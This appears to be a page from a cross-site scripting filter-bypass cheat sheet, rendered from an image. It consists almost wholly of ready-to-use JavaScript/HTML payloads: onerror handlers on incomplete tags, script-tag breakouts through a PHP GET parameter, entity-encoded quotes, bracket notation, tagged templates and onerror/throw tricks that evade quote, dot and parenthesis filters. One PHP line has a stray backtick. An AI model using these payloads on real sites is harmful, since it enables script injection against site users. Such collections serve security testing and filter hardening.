 ### Bypass with incomplete html tag

Works on IE/Firefox/Chrome/Safari

```javascript
<img src='1' onerror='alert(0)' <
```

### Bypass quotes for string

```javascript
String.fromCharCode(88,83,83)
```

### Bypass quotes in script tag

```javascript
http://localhost/bla.php?test=</script><script>alert(1)</script>
<html>
  <script>
    <?php echo 'foo="text '.$_GET['test'].'";';`?>
  </script>
</html>
```

### Bypass quotes in mousedown event

You can bypass a single quote with &#39; in an on mousedown event handler

```javascript
<a href="" onmousedown="var name = '&#39;;alert(1)//'; alert('smthg')">Link</a>
```

### Bypass dot filter

```javascript
<script>window['alert'](document['domain'])</script>
```

Convert IP address into decimal format: IE. `http://192.168.1.1` == `http://3232235777`
http://www.geektools.com/cgi-bin/ipconv.cgi

### Bypass parenthesis for string

```javascript
alert`1`
setTimeout`alert\u0028document.domain\u0029`;
```

### Bypass parenthesis and semi colon

```javascript
// From @garethheyes
<script>onerror=alert;throw 1337</script>
<script>{onerror=alert}throw 1337</script>
<script>throw onerror=alert,'some string',123,'haha'</script>

// From @terjanq
<script>throw/a/,Uncaught=1,g=alert,a=URL+0,onerror=eval,/1/g+a[12]+[1337]+a[13]</script>

// From @cgvwzq
<script>TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']</script>
```
